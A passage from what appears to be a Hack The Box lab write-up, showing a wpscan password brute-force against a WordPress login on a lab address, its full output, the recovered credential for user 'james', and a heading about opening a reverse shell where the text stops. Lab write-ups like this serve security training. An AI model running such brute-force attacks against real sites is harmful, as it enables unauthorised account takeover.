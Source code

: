 Let's try brute-forcing with this wordlist.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords dante_wp_wordlist.txt           
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

<SNIP>

Trying james / Civilization Time: 00:00:15 <> (279 / 494) 56.47%  ETA: 00:00Trying james / Associated Time: 00:00:16 <> (289 / 494) 58.50%  ETA: 00:00:1Trying james / interpreter Time: 00:00:16 <> (290 / 494) 58.70%  ETA: 00:00:Trying james / Netherlands Time: 00:00:16 <> (295 / 494) 59.71%  ETA: 00:00:Trying james / Architecture Time: 00:00:17 <> (324 / 494) 65.58%  ETA: 00:00Trying james / OpenOffice Time: 00:00:20 <> (355 / 494) 71.86%  ETA: 00:00:0Trying james / professional Time: 00:00:22 <> (385 / 494) 77.93%  ETA: 00:00[SUCCESS] - james / Toyota                                                  
Trying james / Toyota Time: 00:00:23 <=  > (400 / 894) 44.74%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: james, Password: Toyota

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jan  4 05:17:10 2025
[+] Requests Done: 575
[+] Cached Requests: 6
[+] Data Sent: 197.658 KB
[+] Data Received: 2.66 MB
[+] Memory used: 289.797 MB
[+] Elapsed time: 00:00:35
```

Bingo! It finds a valid credential : `james` : `Toyota`

##### Open a reverse shell

Let's login on wordpress `wp-admin` panel.
